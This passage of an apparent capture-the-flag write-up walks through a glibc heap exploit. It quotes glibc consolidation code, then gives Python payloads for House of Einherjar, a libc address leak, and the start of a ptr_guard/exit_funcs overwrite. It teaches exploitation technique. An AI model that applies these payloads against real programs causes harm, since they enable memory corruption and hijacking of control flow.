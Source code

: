 ```c
if (nextchunk != av->top) {
  /* get and clear inuse bit */
  nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

  /* consolidate forward */
  if (!nextinuse) {
    unlink_chunk (av, nextchunk);
    size += nextsize;
  } else clear_inuse_bit_at_offset(nextchunk, 0);
  // place chunk in unsorted
  ...
} else {
  size += nextsize;
  set_head(p, size | PREV_INUSE);
  av->top = p;
  check_chunk(av, p);
}
```

Now, we perform House of Einherjar.

```py
# the off-by-one will change chunk_8 PREV_INUSE bit to 0 cos of the appended null byte
payload = flat(
    0x0, 0x1f0, # 0x1f0 must match the size to pass corrupted size vs. prev_size
    heap_base + 0x9c0, heap_base + 0x9c0, # p = heap_base + 0x9c0, fd->bk == p, bk->fd == p to pass corrupted double-linked list
    b"a"*0x1d0,
    0x1f0, # this size (prev_size) must be such that chunk_8 - 0x1f0 points to the fd and bk ptrs
)
edit(p, 7, payload)

# trigger consolidate
use(p, 8)
```

Here we want to use wishing well to leak libc. We need to do it twice, because the very first chunk for heap leak was
also size 0x21 (we could have avoided this if we made the first chunk part of the tcache setup step)

```py
wish(p)

# leak libc base (chunk_8 is in unsorted bin)
wish(p)

leak = u64(view(p, 1).ljust(8, b"\x00"))
libc_base = leak - 0x219fc0
print(hex(libc_base))
libc.address = libc_base
```
We can now exploit last remainder chunk mechanism to do 2 small writes, which is necessary for `exit_funcs` route.
(House of Apple only needs 1 large write, it's a viable alternative). These are the targets we're interested in:
```py
def encrypt(pos, ptr):
    return (pos >> 12) ^ ptr

rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

# target0: ptr_guard = 0
target0 = encrypt(heap_base + 0xa50, libc_base - 0x2890)
```